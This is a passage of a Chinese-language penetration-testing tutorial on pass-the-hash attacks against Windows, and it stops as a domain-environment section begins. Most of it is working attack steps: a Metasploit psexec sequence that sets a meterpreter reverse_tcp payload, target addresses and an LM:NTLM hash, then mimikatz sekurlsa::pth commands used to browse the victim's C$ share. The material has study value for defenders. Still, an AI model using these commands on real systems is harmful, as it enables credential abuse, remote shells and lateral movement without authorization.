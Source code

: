 在渗透过程中，如果从lsass.exe进程得不到明文密码，并且拿到的用户hash也破解不出结果，我们就可以使用hash传递攻击

从上面写的NTLM认证方式中我们可以了解到在NTLM认证过程中用户的明文密码是不在客户端和服务端之间传输的，认证最主要的凭据就是用户的NTLM Hash。

那么当攻击者拿到用户的NTLM Hash时，攻击者完全可以只利用NTLM Hash与服务端完成身份认证的流程，达到冒充该用户的目的。

## MSF

使用msf的`exploit/windows/smb/psexec`模块可以进行hash传递攻击，条件是目标开启445端口，而且没有打KB2871997和KB2928120这两个补丁

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.206.128
set RHOST 192.168.206.101
set SMBUser administrator
set SMBPass AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
exploit
```

注意`SMBPass`参数要写成`<LM Hash>:<NTLM Hash>`的形式，exploit后可以成功拿到目标计算机的meterpreter会话

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220242-1e262c56-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220242-1e262c56-f279-1.png)

## mimikatz

其实这个是在微软发布了KB2871997补丁之后mimikatz提供的解决办法，也被称为**Over Pass-the-hash**

### 工作组环境

首先我们假设在WIN2003上我们使用wce抓取到了administrator的NTLM Hash

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220317-3352fa32-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220317-3352fa32-f279-1.png)

然后我们到WINXP中使用mimikatz进行hash传递攻击：

```
privilege::debug
sekurlsa::pth /user:<用户名> /domain:<远程服务器地址> /ntlm:<用户的NTLM Hash>
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220333-3c876908-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220333-3c876908-f279-1.png)

之后会弹出一个cmd的窗口，我们在这个cmd中可以进行对目标计算机的一些操作，如列出WIN2003的c盘文件：

```
dir \\192.168.206.101\c$
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20191019220348-45dd1606-f279-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191019220348-45dd1606-f279-1.png)

### 域环境

如果我们拿到了域内一台服务器的域用户账号，那么我们可能想域管或者其他域用户会不会使用的是同样的密码呢？
